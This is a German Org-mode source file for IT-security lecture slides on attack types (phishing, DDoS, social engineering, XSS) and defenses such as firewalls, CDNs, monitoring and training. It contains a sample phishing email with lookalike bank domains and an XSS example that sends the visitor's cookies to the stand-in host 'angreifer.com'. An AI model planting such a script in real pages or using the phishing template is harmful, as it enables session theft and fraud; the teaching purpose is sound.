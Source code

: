 :LaTeX_PROPERTIES:
#+LANGUAGE: de
#+OPTIONS: d:nil todo:nil pri:nil tags:nil
#+OPTIONS: H:4
#+LaTeX_CLASS: orgstandard
#+LaTeX_CMD: xelatex
#+LATEX_HEADER: \usepackage{listings}
:END:


:REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME: league
#+REVEAL_EXTRA_CSS: ./mystyle.css
#+REVEAL_HLEVEL: 1
#+OPTIONS: timestamp:nil toc:nil num:nil
:END:

#+TITLE: Hackerangriffe und Schutzmaßnahmen
#+SUBTITLE: IT-Sicherheit
#+AUTHOR: ITT-Net-IS

#+LATEX: \def\square{\text{☐}}\relax\def\boxtimes{\text{☑}}\relax 

* Einführung
"Hackerangriff" bezeichnet einen Versuch, unbefugten Zugriff auf ein Computersystem, Netzwerk oder Daten zu erlangen. Während der Begriff "Hacker" ursprünglich Personen mit tiefgreifendem Technikverständnis beschrieb, wird er heute oft mit Cyberkriminellen assoziiert.


* Arten von Hackerangriffen
** Phishing-Angriffe
Phishing zielt darauf ab, vertrauliche Informationen wie Passwörter oder Kreditkartendaten durch Täuschung zu erlangen.

#+BEGIN_NOTES
"Phishing" kommt vom englischen "fishing" (Angeln) und bezeichnet den Versuch, Informationen "zu angeln", indem gefälschte Identitäten oder Websites verwendet werden.
#+END_NOTES

*** Phishing-Varianten
#+ATTR_REVEAL: :frag (appear)
- *Spear-Phishing*: Zielt auf bestimmte Personen oder Organisationen ab
- *Whaling*: Spezifisch auf hochrangige Führungskräfte ausgerichtet
- *Smishing*: Phishing über SMS
- *Vishing*: Phishing über Telefonanrufe (Voice-Phishing)

*** Beispiel: Typische Phishing-E-Mail
#+BEGIN_EXAMPLE
Von: security@bank-service-verify.com
Betreff: Dringende Sicherheitswarnung - Handlung erforderlich

Sehr geehrter Kunde,

Wir haben ungewöhnliche Aktivitäten auf Ihrem Konto festgestellt. 
Um eine Sperrung zu verhindern, bestätigen Sie bitte Ihre Identität unter:
https://bank-verfication-secure.com/login

Mit freundlichen Grüßen,
Ihr Sicherheitsteam
#+END_EXAMPLE

** DDoS-Angriffe (Distributed Denial of Service)
DDoS-Angriffe überlasten Systeme oder Netzwerke mit Anfragen, bis sie nicht mehr reagieren können.

#+BEGIN_NOTES
"DDoS" steht für "Distributed Denial of Service". Der Angriff wird von vielen verschiedenen Quellen gleichzeitig ausgeführt, was ihn schwer zu blockieren macht.
#+END_NOTES

*** DDoS-Arten
#+ATTR_REVEAL: :frag (appear)
- *Volumetrische Angriffe*: Überschwemmen Netzwerkbandbreite
- *Protokollangriffe*: Ausnutzen von Schwachstellen in Netzwerkprotokollen
- *Anwendungsangriffe*: Zielen auf spezifische Anwendungen oder Dienste ab

** Social Engineering
Bei Social Engineering werden psychologische Manipulation eingesetzt, um Opfer zur Preisgabe vertraulicher Informationen zu bewegen.

#+BEGIN_NOTES
"Social Engineering" bezeichnet Techniken der zwischenmenschlichen Manipulation, um Menschen dazu zu bringen, normale Sicherheitsmaßnahmen zu umgehen.
#+END_NOTES

*** Häufige Social Engineering-Taktiken
#+ATTR_REVEAL: :frag (appear)
- *Vorwand-Anrufe* ("Pretexting"): Erfundene Szenarien zur Informationsgewinnung
- *Baiting*: Anbieten von etwas Verlockenden (z.B. kostenlose Downloads), um Schadsoftware zu verbreiten
- *Quid Pro Quo*: Versprechen eines Vorteils im Austausch für Informationen
- *Tailgating*: Unbefugtes Folgen einer autorisierten Person in gesicherte Bereiche

** Andere verbreitete Angriffsarten
#+ATTR_REVEAL: :frag (appear)
- *SQL-Injection*: Einschleusen von schädlichem SQL-Code in Datenbankanfragen
- *Cross-Site Scripting (XSS)*: Einbetten bösartiger Skripte in Webseiten
- *Man-in-the-Middle (MITM)*: Abfangen und möglicherweise Manipulieren von Kommunikation
- *Brute-Force*: Systematisches Durchprobieren aller möglichen Passwörter
- *Zero-Day-Exploits*: Ausnutzen unbekannter Sicherheitslücken


*** Beispiel: Cross-Site Scripting (XSS)
#+BEGIN_SRC html
<!-- Böswilliger Kommentar auf einer Website -->
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var img = new Image();
    img.src = 'https://angreifer.com/stehlen?cookies=' + encodeURIComponent(document.cookie);
    img.style.display = 'none';
    document.body.appendChild(img);
  });
</script>
#+END_SRC

* Schutzmaßnahmen gegen Hackerangriffe
** Technische Schutzmaßnahmen
*** Firewalls und Netzwerksicherheit
#+ATTR_REVEAL: :frag (appear)
- Implementierung und Konfiguration von Firewalls
- Segmentierung von Netzwerken
- Verwendung von Virtual Private Networks (VPNs)
- Regelmäßige Netzwerküberwachung

#+BEGIN_NOTES
Eine "Firewall" ist ein Sicherheitssystem, das den Netzwerkverkehr basierend auf vordefinierten Sicherheitsregeln überwacht und kontrolliert.
#+END_NOTES

*** Beispiel: Einfache iptables-Firewall-Konfiguration
#+BEGIN_SRC bash
  # Grundlegende iptables-Firewall-Regeln
  
  # Standardrichtlinien: Alles ablehnen
  iptables -P INPUT DROP
  iptables -P FORWARD DROP
  iptables -P OUTPUT ACCEPT
  
  # Lokale Verbindungen erlauben
  iptables -A INPUT -i lo -j ACCEPT
  
  # Bestehende Verbindungen erlauben
  iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
  
  # SSH auf Port 22 erlauben
  iptables -A INPUT -p tcp --dport 22 -j ACCEPT
  
  # HTTP und HTTPS erlauben
  iptables -A INPUT -p tcp --dport 80 -j ACCEPT
  iptables -A INPUT -p tcp --dport 443 -j ACCEPT
#+END_SRC

*** Aktualisierte Software und Patch-Management
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Updates für Betriebssysteme und Software
- Automatisierte Patch-Management-Systeme
- Zeitnahe Anwendung sicherheitsrelevanter Updates

*** Starke Authentifizierung
#+ATTR_REVEAL: :frag (appear)
- Verwendung komplexer Passwörter
- Implementierung von Zwei-Faktor-Authentifizierung (2FA)
- Biometrische Authentifizierungsmethoden
- Single Sign-On (SSO) mit starker Basisauthentifizierung

#+BEGIN_NOTES
"Zwei-Faktor-Authentifizierung (2FA)" erfordert zwei unterschiedliche Authentifizierungsfaktoren: etwas, das man weiß (Passwort), besitzt (Smartphone) oder ist (Fingerabdruck).
#+END_NOTES


*** Verschlüsselung
#+ATTR_REVEAL: :frag (appear)
- Festplattenverschlüsselung
- Verschlüsselung der Kommunikation (TLS/SSL)
- E-Mail-Verschlüsselung (PGP/GPG)
- Verschlüsselung von Backups

*** Regelmäßige Backups
#+ATTR_REVEAL: :frag (appear)
- 3-2-1-Backup-Strategie: 3 Kopien, 2 verschiedene Medien, 1 Off-Site
- Regelmäßige Tests der Wiederherstellungsprozesse
- Unveränderliche (immutable) Backups gegen Ransomware

** Organisatorische Schutzmaßnahmen
*** Sicherheitsrichtlinien und -verfahren
#+ATTR_REVEAL: :frag (appear)
- Dokumentierte Sicherheitsrichtlinien
- Klare Verantwortlichkeiten und Rollen
- Incident-Response-Pläne
- Regelmäßige Sicherheitsaudits

#+BEGIN_NOTES
"Incident-Response-Plan" ist ein dokumentierter Ablaufplan, der festlegt, wie eine Organisation auf Sicherheitsvorfälle reagieren soll.
#+END_NOTES

*** Mitarbeiterschulung und Sensibilisierung
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Sicherheitsschulungen
- Phishing-Simulationen
- Sicherheitsbewusstsein im Arbeitsalltag fördern
- Klare Meldewege für verdächtige Aktivitäten

*** Beispiel: Checkliste für Sicherheitsbewusstsein

#+ATTR_REVEAL: :frag (appear)
 - [ ] Verdächtige E-Mails an IT-Sicherheit melden
 - [ ] Keine unbekannten USB-Sticks verwenden
 - [ ] Starke, einzigartige Passwörter für jeden Dienst nutzen
 - [ ] Zwei-Faktor-Authentifizierung aktivieren
 - [ ] Öffentliches WLAN nur mit VPN nutzen
 - [ ] Bildschirm sperren, wenn Arbeitsplatz verlassen wird
 - [ ] Regelmäßig an Sicherheitsschulungen teilnehmen
 - [ ] Vorsicht bei unerwarteten Anhängen oder Links


*** Zugriffskontrollen und Berechtigungsverwaltung
EXAMPLE
- Prinzip der geringsten Berechtigung
- Regelmäßige Überprüfung von Zugriffsrechten
- Prozesse für Onboarding und Offboarding von Mitarbeitern
- Privilegierte Konten besonders schützen

#+BEGIN_NOTES
Das "Prinzip der geringsten Berechtigung" (Principle of Least Privilege) besagt, dass Benutzer nur die minimal notwendigen Rechte erhalten sollten, um ihre Aufgaben zu erfüllen.
#+END_NOTES

** Überwachung und Reaktion
*** Sicherheitsüberwachung
EXAMPLE
- Intrusion Detection/Prevention Systeme (IDS/IPS)
- Security Information and Event Management (SIEM)
- Anomalieerkennung
- Honeypots zur Angriffserkennung

#+BEGIN_NOTES
"SIEM" (Security Information and Event Management) sammelt und analysiert Sicherheitsdaten aus verschiedenen Quellen, um Bedrohungen zu erkennen und darauf zu reagieren.
#+END_NOTES

*** Beispiel: Log-Analyse mit ELK Stack
#+BEGIN_SRC bash
  # Beispiel für einfache Analyse von Zugriffsprotokollen mit grep
  # Suche nach fehlgeschlagenen SSH-Anmeldeversuchen
  
  grep "Failed password" /var/log/auth.log | \
      awk '{print $11}' | \
      sort | uniq -c | sort -nr | \
      head -n 10
#+END_SRC

*** Incident Response
#+ATTR_REVEAL: :frag (appear)
- Festgelegte Reaktionspläne für verschiedene Angriffsszenarien
- Klar definierte Rollen und Verantwortlichkeiten
- Kommunikationsstrategien während eines Vorfalls
- Forensische Untersuchungsprozesse

*** Penetrationstests und Schwachstellenscans
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Schwachstellenscans
- Externe Penetrationstests
- Red-Team-Übungen
- Bug-Bounty-Programme

#+BEGIN_NOTES
"Red-Team-Übungen" sind simulierte Angriffe durch ein Team von Sicherheitsexperten, die versuchen, die Verteidigungsmaßnahmen einer Organisation zu überwinden, um Schwachstellen zu identifizieren.
#+END_NOTES


** Content Delivery Networks (CDN) als Schutzmaßnahme
Content Delivery Networks sind verteilte Netzwerke von Servern, die Website-Inhalte an verschiedenen geografischen Standorten zwischenspeichern und ausliefern.

#+BEGIN_NOTES
"CDN" steht für "Content Delivery Network" und bezeichnet ein Netzwerk geografisch verteilter Server, die zusammenarbeiten, um digitale Inhalte schnell und zuverlässig bereitzustellen. Ursprünglich zur Leistungsverbesserung entwickelt, haben CDNs heute wichtige Sicherheitsfunktionen.
#+END_NOTES

*** Funktionsweise eines CDN
#+ATTR_REVEAL: :frag (appear)
- Verteilung von Inhalten auf mehrere Server weltweit
- Auslieferung von Inhalten vom geografisch nächsten Server
- Zwischenspeicherung (Caching) statischer Inhalte
- Lastverteilung zwischen Servern
- Netzwerkoptimierung durch effiziente Routing-Mechanismen

*** CDN als DDoS-Schutz
CDNs bieten mehrere Schutzmechanismen gegen DDoS-Angriffe:

**** Angriffsverdünnung durch Verteilung
#+ATTR_REVEAL: :frag (appear)
- Verteilung des Datenverkehrs auf zahlreiche Server weltweit
- Einzelne Server werden nicht überlastet
- Angriffsdaten werden über ein größeres Netzwerk verteilt

**** Traffic-Filterung und Anomalieerkennung
#+ATTR_REVEAL: :frag (appear)
- Erkennung ungewöhnlicher Verkehrsmuster in Echtzeit
- Unterscheidung zwischen legitimen Benutzern und Angreifern
- Automatische Blockierung verdächtiger IP-Adressen
- Layer 3/4 und Layer 7 Schutz (Netzwerk- und Anwendungsebene)

**** Überkapazität und Skalierung
#+ATTR_REVEAL: :frag (appear)
- CDNs verfügen über massive Bandbreitenreserven
- Können plötzliche Verkehrsspitzen absorbieren
- Dynamische Skalierung bei Bedarf

**** Bot-Management
#+ATTR_REVEAL: :frag (appear)
- Identifizierung und Blockierung von Bot-Netzwerken
- CAPTCHA-Integration für verdächtige Anfragen
- Rate-Limiting für einzelne IP-Adressen

*** Beispiel: CDN-Konfiguration mit Cloudflare
#+BEGIN_SRC yaml
  # Beispiel einer Cloudflare-Konfiguration (als .cloudflare.yaml)
  
  # DDoS-Schutzeinstellungen
  ddos_protection:
    security_level: high      # Sicherheitsstufe (low, medium, high)
    challenge_ttl: 3600       # Gültigkeitsdauer von Sicherheitsabfragen in Sekunden
    rate_limiting:
      enabled: true
      threshold: 100          # Maximale Anfragen pro Minute
      action: challenge       # Aktion bei Überschreitung (challenge, block, js_challenge)
  
  # WAF (Web Application Firewall) Regeln
  waf:
    enabled: true
    ruleset: cloudflare      # Verwendetes Regelset
    custom_rules:
      - description: "Blockiere verdächtige User-Agents"
        expression: "http.user_agent contains 'scraper' or http.user_agent contains 'bot'"
        action: block
  
  # Caching-Einstellungen
  cache:
    enabled: true
    ttl: 86400               # Caching-Dauer in Sekunden (24 Stunden)
    browser_ttl: 14400       # Browser-Cache-Dauer (4 Stunden)
#+END_SRC

*** Vor- und Nachteile von CDNs
**** Vorteile
#+ATTR_REVEAL: :frag (appear)
- Effektiver Schutz gegen volumetrische DDoS-Angriffe
- Verbesserung der Website-Ladezeiten
- Reduzierung der Last auf Ursprungsservern
- Globale Verteilung für Ausfallsicherheit

**** Nachteile
#+ATTR_REVEAL: :frag (appear)
- Potenzielle Abhängigkeit von einem externen Dienstleister
- Mögliche Komplexität bei der Konfiguration
- Zusätzliche Kosten bei hohem Datenverkehr
- Bei unsachgemäßer Konfiguration mögliche Datenschutzprobleme

*** Einsatzstrategien für CDNs
#+ATTR_REVEAL: :frag (appear)
- Kombination mit lokalen Schutzmaßnahmen (Defense-in-Depth)
- Absicherung kritischer Webanwendungen und APIs
- Entwicklung von Notfallplänen für den Fall einer CDN-Störung
- Regelmäßige Überprüfung und Anpassung der CDN-Konfiguration

#+BEGIN_NOTES
Die Nutzung eines CDN ist eine proaktive Maßnahme, die sowohl die Leistung als auch die Sicherheit einer Website verbessert. Als Teil einer umfassenden Sicherheitsstrategie sollte ein CDN mit anderen Sicherheitsmaßnahmen wie Firewalls, Intrusion Detection und regelmäßigen Sicherheitsaudits kombiniert werden.
#+END_NOTES

* Aktuelle Angriffsszenarien (2024-2025)
** Erweiterte Phishing-Techniken
#+ATTR_REVEAL: :frag (appear)
- KI-generierte Phishing-Nachrichten
- Gezielte Spear-Phishing-Angriffe mit präzisen persönlichen Informationen
- Manipulation von Geschäftskommunikation (Business Email Compromise)
- Mehrsprachige und kulturell angepasste Phishing-Kampagnen

** Cloud-Sicherheitsbedrohungen
#+ATTR_REVEAL: :frag (appear)
- Fehlkonfigurationen in Cloud-Umgebungen
- Angriffe auf APIs
- Container-Sicherheitslücken
- Identity and Access Management (IAM) Schwachstellen

** Angriffe auf Lieferketten
#+ATTR_REVEAL: :frag (appear)
- Kompromittierung von Software-Lieferketten
- Angriffe auf vertrauenswürdige Software-Updates
- Manipulation von Open-Source-Paketen
- Kompromittierung von Entwicklungsumgebungen

#+BEGIN_NOTES
"Lieferkettenangriffe" zielen auf die Kompromittierung von Software oder Hardware während des Entwicklungs- oder Verteilungsprozesses ab, oft bevor sie den Endverbraucher erreicht.
#+END_NOTES

** IoT-Bedrohungen
- Angriffe auf unzureichend gesicherte IoT-Geräte
- Botnets aus kompromittierten IoT-Geräten
- Smart-Home-Schwachstellen
- Industrielle IoT-Sicherheitsprobleme

#+BEGIN_NOTES
"IoT" (Internet of Things) bezeichnet Alltagsgeräte, die mit dem Internet verbunden sind und Daten sammeln, austauschen und verarbeiten können.
#+END_NOTES

** Deepfakes und KI-gestützte Angriffe
#+ATTR_REVEAL: :frag (appear)
- Täuschend echte Stimm- und Videomanipulationen
- Automatisierte Social-Engineering-Angriffe
- Umgehung von biometrischen Sicherheitssystemen
- Generative KI zur Erstellung täuschend echter Phishing-Inhalte

*** Beispiel: Deepfake-basierte CEO-Betrugsmasche
#+BEGIN_EXAMPLE
Ein Finanzmanager erhält einen Videoanruf, der scheinbar vom CEO des Unternehmens kommt. 
Die Person sieht aus und klingt genau wie der CEO, ist jedoch ein Deepfake.

Der falsche CEO erklärt, dass eine dringende, vertrauliche Übernahme im Gange sei und 
sofort eine Vorauszahlung an ein Treuhandkonto geleistet werden müsse. 
Er betont die Dringlichkeit und Vertraulichkeit, um den normalen Genehmigungsprozess 
zu umgehen.
#+END_EXAMPLE

* Praxisaufgabe: Recherche aktueller Angriffsszenarien            :noexports:
:PROPERTIES:
:Abgabetermin: 2025-04-24
:Punkte: 25
:END:

** Aufgabenstellung
1. Recherchieren Sie ein aktuelles Angriffsszenario aus den Jahren 2024-2025
2. Analysieren Sie:
   - Art des Angriffs
   - Betroffene Systeme und Organisationen
   - Angriffsmethode und -verlauf
   - Auswirkungen und Schäden
   - Gegenmaßnahmen und Lehren
3. Erstellen Sie eine Präsentation (10-15 Minuten)
4. Bereiten Sie praktische Empfehlungen vor, wie sich Unternehmen vor ähnlichen Angriffen schützen können

** Bewertungskriterien
- Tiefe und Qualität der Recherche (10 Punkte)
- Verständnis der technischen Details (5 Punkte)
- Qualität der Präsentation (5 Punkte)
- Praxisrelevanz der Empfehlungen (5 Punkte)

* Literatur und weiterführende Ressourcen                         :noexports:
** Bücher
- Ross J. Anderson: "Security Engineering" (3. Auflage, 2020)
- Kim Zetter: "Countdown to Zero Day" (2015)
- Bruce Schneier: "Click Here to Kill Everybody" (2018)

** Online-Ressourcen
- OWASP Top 10: https://owasp.org/Top10/
- NIST Cybersecurity Framework: https://www.nist.gov/cyberframework
- BSI IT-Grundschutz: https://www.bsi.bund.de/grundschutz

** Podcasts und Blogs
- Darknet Diaries (Podcast)
- Passwort Podcast von Heise (Podcast)
- Risky Buisness (Podcast)
- Krebs on Security (Blog)
- The Hacker News (Website)
- heise Security (deutschsprachiges Portal)

* Glossar                                                         :noexports:
- *APT (Advanced Persistent Threat)*: Komplexe, langfristige Angriffe, oft staatlich gesponsert
- *CVE (Common Vulnerabilities and Exposures)*: Standardisierte Kennungen für bekannte Sicherheitslücken
- *Exploit*: Code oder Technik zur Ausnutzung einer Sicherheitslücke
- *Hashing*: Kryptografische Einwegfunktion zur Datenintegritätsprüfung
- *MITM (Man-in-the-Middle)*: Angriff, bei dem Kommunikation abgefangen wird
- *Pen-Test (Penetrationstest)*: Autorisierter Simulationsangriff zur Sicherheitsprüfung
- *Sandbox*: Isolierte Umgebung zum Testen potenziell gefährlicher Software
- *Zero-Day*: Unbekannte Sicherheitslücke ohne verfügbaren Patch
